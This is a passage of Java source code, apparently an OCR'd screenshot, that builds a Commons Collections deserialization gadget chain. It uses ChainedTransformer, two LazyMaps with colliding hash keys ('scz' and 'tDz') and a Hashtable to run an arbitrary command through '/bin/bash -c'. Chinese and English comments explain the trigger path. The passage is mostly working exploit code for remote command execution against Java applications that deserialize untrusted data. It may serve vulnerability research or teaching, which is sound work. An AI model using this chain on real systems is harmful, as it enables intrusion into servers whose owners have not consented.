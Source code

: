```java
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        /*
         * 本例在数据准备阶段就会触发ChainedTransformer，必须先给它一个无
         * 害的初始值，不要一上来就将第一形参指定成tarray。下面这两个是一
         * 回事:
         *
         * new Transformer[] {}
         * new Transformer[0]
         */
        Transformer     tchain      = new ChainedTransformer( new Transformer[0] );
        Map             normalMap_0 = new HashMap();
        Map             normalMap_1 = new HashMap();
        Map             lazyMap_0   = LazyMap.decorate( normalMap_0, tchain );
        Map             lazyMap_1   = LazyMap.decorate( normalMap_1, tchain );
        /*
         * Creating two LazyMaps with colliding hashes, in order to force
         * element comparison during readObject
         *
         * 需要key的哈希冲突，但key不能一样，否则将来Hashtable.put()时会合
         * 并，不会增加新项。
         *
         * 下面两个put()的第二形参必须一样，这与hashCode()的实现强相关
         *
         * "scz"、"tDz"的HASH都是113706，"same"的HASH是3522662
         *
         * 参看java.lang.String.hashCode()的实现
         */
        lazyMap_0.put( "scz", "same" );
        lazyMap_1.put( "tDz", "same" );
        Hashtable       ht          = new Hashtable();
        /*
         * Use the colliding Maps as keys in Hashtable
         *
         * 此处会提前触发ChainedTransformer.transform()
         *
         * Hashtable.put
         *   AbstractMapDecorator.equals
         *     AbstractMap.equals
         *       LazyMap.get
         *         ChainedTransformer.transform
         *
         * 第二形参可以是任意值，跟它没关系
         *
         * 参看java.util.HashMap$Node<K,V>.hashCode()的实现
         *
         * http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/file/jdk8u232-ga/src/share/classes/java/util/HashMap.java
         *
         * return Objects.hashCode(key) ^ Objects.hashCode(value);
         *
```